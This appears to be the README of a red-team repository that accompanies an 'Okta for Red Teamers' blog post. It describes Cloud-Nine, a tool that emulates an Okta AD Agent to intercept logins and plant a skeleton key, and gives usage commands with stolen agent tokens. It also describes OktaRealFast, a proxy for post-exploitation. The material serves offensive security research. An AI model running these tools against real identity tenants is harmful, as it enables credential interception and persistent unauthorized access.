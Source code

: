 ## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://blog.xpnsec.com/okta-for-redteamers/).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Two modes are supported:

1. Use an stolen AD Agent token to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## OktaRealFast

This is a proxy tool for validating Okta FastPass JWT's before forwarding them to a target host.

The idea is simple.. it gives the ability to see if a popup is going to be presented to the user during post-exploitation. 

More information in the blog post https://blog.xpnsec.com/identity-providers-redteamers.

## malIDP

This has been moved to its own repository at [https://github.com/xpn/malIDP](https://github.com/xpn/malIDP).

